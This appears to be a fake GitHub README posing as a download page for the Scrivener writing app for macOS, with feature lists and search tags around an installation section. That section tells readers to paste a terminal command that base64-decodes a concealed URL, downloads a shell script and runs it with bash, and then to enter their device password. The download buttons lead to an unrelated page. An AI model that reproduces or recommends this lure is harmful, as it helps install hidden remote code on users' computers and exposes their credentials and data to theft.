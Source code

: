 # 📚 Scrivener — Powerful Writing Software for macOS

**Scrivener** is the ultimate writing tool designed for authors, screenwriters, students, and researchers on macOS. It provides an intuitive environment to organize notes, research, and drafts in one place, making long-form writing projects manageable and productive.

Whether you’re drafting a novel, writing a screenplay, or compiling academic papers, Scrivener’s robust features and flexibility make it the preferred choice for writers using MacBook or iMac.

---

## ✅ Download Scrivener for macOS  
[![Download Scrivener](https://img.shields.io/badge/Download-Scrivener-blueviolet)](https://shuziktobehuman.github.io/huja/Skrivener)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Scrivener?

Scrivener is a comprehensive writing application that lets you structure complex documents, rearrange sections easily, and keep your research materials close at hand. With powerful tools like a corkboard, outliner, and distraction-free writing mode, Scrivener supports all phases of the writing process on macOS.

---

## ✨ Features

- 📝 Organize notes, concepts, research, and whole documents in one project  
- 📅 Corkboard and outliner views for easy planning and structuring  
- 🎯 Distraction-free writing environment  
- 🔄 Split editor for comparing or working on multiple documents  
- 📂 Import and manage PDFs, images, web pages, and more  
- 🖥 Optimized for macOS Ventura and Apple Silicon (M1/M2/M3)  
- 🛠 Compile and export manuscripts to multiple formats including PDF, DOCX, ePub, and Kindle  
- 📊 Writing goal tracking and progress statistics  
- 🧩 Integration with other tools like DEVONthink and Scapple  
- 💻 Cross-platform compatibility with Windows version available  

---

## 💡 Why Use Scrivener?

- ✍️ Designed specifically for long-form and complex writing projects  
- 🧠 Powerful organization tools to keep everything in one place  
- ⚡ Boosts productivity with flexible writing modes and project management  
- 📚 Ideal for authors, researchers, academics, and creative writers  
- 🖱 Supports seamless import/export and multi-format publishing  
- 🌍 Trusted by writers worldwide for decades  

---

[![Download Scrivener](https://img.shields.io/badge/Download-Scrivener-blueviolet)](https://shuziktobehuman.github.io/huja/Skrivener)

---


## 🖼 Preview

![Scrivener Screenshot 1](https://cdn.macstories.net/002/screenshot-2017-11-19-17-20-131511134370725.png)  
![Scrivener Screenshot 2](https://www.literatureandlatte.com/wp-content/uploads/2023/06/2-grow-your-ms.jpeg)

---

## 📌 Tags

scrivener mac, scrivener app mac, download scrivener for mac, devonthink scrivener,  
literature latte scrivener windows, scrapple scrivener, scrivener 1.9, scrivener 3 for mac,  
scrivener 3 for macos, scrivener 3 mac, scrivener mac download, scrivener writing software,  
scrivener macbook pro, scrivener screenwriting mac, scrivener manuscript, scrivener pdf export,  
scrivener ebook export, scrivener research organizer, scrivener productivity mac, scrivener apple silicon  

---
